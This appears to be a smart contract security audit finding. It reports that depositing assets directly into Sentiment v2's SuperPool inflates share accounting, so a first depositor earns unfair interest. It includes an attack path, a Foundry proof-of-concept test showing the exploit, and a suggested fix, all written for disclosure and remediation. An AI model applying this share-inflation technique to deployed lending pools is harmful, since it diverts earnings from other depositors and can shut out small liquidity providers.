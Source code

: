 Mammoth Oily Tadpole

Medium

# Users exploiting idle assets will unfairly boost interest earnings, disadvantaging other liquidity providers.

### Summary

Direct asset transfers to  `superPool` will cause an inflated share distribution for users as they will acquire asset shares without those assets being utilized in the lending pools. This creates an imbalance in the system, where these assets do not contribute to the pool's overall liquidity but still grant the user an equivalent amount of shares. As a result, the user gains a larger portion of the pool's earnings relative to other depositors, who contribute to liquidity but receive fewer shares. 

### Root Cause

The root cause of the issue is that when a user transfers assets directly to the superPool, these assets are not actively used for lending or generating returns. Instead, they remain idle in the superPool and do not contribute to the pool's overall lending liquidity. Despite this, the system counts these idle assets when calculating the user's share of the pool’s interest.

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/SuperPool.sol#L181C26-L181C31

### Internal pre-conditions

1. Attacker  (Liquidity Provider) needs to be the first user to deposit to the SuperPool to ensure that their initial deposits is not shared with any other depositors.


### External pre-conditions

_No response_

### Attack Path

## case 1 
1. Deploy `SuperPool`: The malicious actor deploys a new SuperPool contract. (poolOwner = malicious actor)

2. Initial Deposit: The attacker, being the first user to interact with the SuperPool, deposits an initial amount of assets,  This deposit is used to supply the pools

3. Direct Transfer of Assets: The attacker directly transfers additional assets to the SuperPool, bypassing the standard deposit mechanism. These assets remain idle within the SuperPool and do not contribute to the overall liquidity or get lent out.

4. Accrue Interest: The attacker calls the accrue() function, which calculates and distributes interest based on the total assets in the SuperPool, including both the initial deposit and the idle assets.

5. Additional Deposits : Other users may deposit assets into the pool. These deposits are calculated against the inflated total asset count, resulting in the other users receiving fewer shares than they would if the pool's asset total reflected only the actively used liquidity.

6. Attacker Gains More Interest: The attacker benefits from the increased share of the accrued interest because the idle assets are counted in the total asset calculation, even though they do not contribute to the lending activities. This manipulation allows the attacker to earn disproportionately more interest while their funds remain idle and unutilized.

## case 2

 if an attacker is not the deployer of the `SuperPool`, they can still exploit the system by frontrunning transactions or by closely monitoring new pools to be the first to perform certain actions. This allows the attacker to gain an advantage even without having initial control over the `SuperPool`.

### Impact

* Unfair Distribution of Interest: The attacker receives a disproportionate share of the accrued interest because the idle assets they deposited directly inflate the total asset count. This means the attacker earns more interest compared to other users who have deposited assets that are actively used for lending.
* Malicious user can drastically increase the minimum deposit needed to get shares in the superpool, which can prevent smaller players from contributing and decrease overall liquidity.
* Since the idle assets are not being used for lending, the attacker avoids the risks associated with lending activities benefit from the interest earnings while keeping their assets unutilized.


### PoC

```solidity
// run in superPool.t.sol
function testInflatedShareEarnings() public {
        // Setup pools in SuperPool
        vm.startPrank(poolOwner);
        superPool.addPool(linearRatePool, 2000 ether);
        superPool.addPool(fixedRatePool, 2000 ether);
        vm.stopPrank();

        // Attacker interaction with the pool
        address tom = vm.addr(100);
        vm.startPrank(tom);
        asset1.mint(tom, 1100 ether);
        
        // Deposit 100 ether assets into the pool
        asset1.approve(address(superPool), 100 ether);
        superPool.deposit(100 ether, tom);
        
        // Send 1000 ether as idle assets to the SuperPool
        asset1.transfer(address(superPool), 1000 ether);
        
        // Record tom's assets before interest accrual
        // tom is the malicios user
        // tom assets is 1100 ether - fee (fee go to tom if he is the poolOwner)
        uint256 tomAssetsBefore = superPool.previewRedeem(superPool.balanceOf(tom));
        vm.stopPrank();
        
        // Legitimate user deposits into the pool
        address alice = vm.addr(102);
        vm.startPrank(alice);
        asset1.mint(alice, 100 ether);
        asset1.approve(address(superPool), 100 ether);
        
        // Alice's funds will be used in lending operation
        superPool.deposit(100 ether, alice);
        uint256 aliceAssetsBefore = superPool.previewRedeem(superPool.balanceOf(alice));
        vm.stopPrank();

        // Lending operation
        address bob = vm.addr(103);
        vm.startPrank(Pool(pool).positionManager());
        // Expect revert if trying to borrow more than available liquidity
        vm.expectRevert();
        Pool(pool).borrow(linearRatePool, bob, 201 ether);

        Pool(pool).borrow(linearRatePool, bob, 200 ether); // Pool has 200 ether liquidity
       
        vm.stopPrank();

        // Accrue interest in the lending pool
        vm.warp(block.timestamp + 30 days);
        vm.roll(block.number + 1_000_000);
        pool.accrue(linearRatePool);

        // Bob repays the debt
        vm.startPrank(Pool(pool).positionManager());
        uint256 borrowsOwed = pool.getBorrowsOf(linearRatePool, bob);
        uint256 interest = borrowsOwed - 200 ether;
        asset1.mint(Pool(pool).positionManager(), borrowsOwed);
        asset1.transfer(address(pool), borrowsOwed);
        Pool(pool).repay(linearRatePool, bob, borrowsOwed);
        vm.stopPrank();
        
        // Accrue interest in SuperPool
        superPool.accrue();

        // Output shares and validate
        uint256 tomShares = superPool.balanceOf(tom);
        uint256 aliceShares = superPool.balanceOf(alice);

        console2.log("Tom's shares: ", tomShares);
        console2.log("Alice's shares: ", aliceShares);

        // Validate expected shares
        assertEq(tomShares, 100 ether);
        // Alice’s shares should be significantly less than Tom’s
        // Expect Alice’s shares to be approximately 10x less than Tom’s
        assertLe(aliceShares, 10 ether);

        // Calculate TOm's and Alice's interest earned
        uint256 tomInterestEarned = superPool.previewRedeem(superPool.balanceOf(tom)) - tomAssetsBefore;
        uint256 aliceInterestEarned = superPool.previewRedeem(superPool.balanceOf(alice)) - aliceAssetsBefore;
        console2.log("Tom's interest earned: ", tomInterestEarned);
        console2.log("Alice's interest earned: ", aliceInterestEarned);

        // Assert interest earned is within expected range
        assertGt(tomInterestEarned, 29 ether);
        assertLe(aliceInterestEarned, 3 ether);

        // Log total interest earned in the lending pool
        console2.log("Total interest: ", interest);
    }
```

### Mitigation

ensure that any assets held by the `SuperPool` are distributed to the  pools if their total exceeds a specified threshold when the accrue function is called . This approach prevents assets from remaining idle and ensures that they contribute to the liquidity of the pools
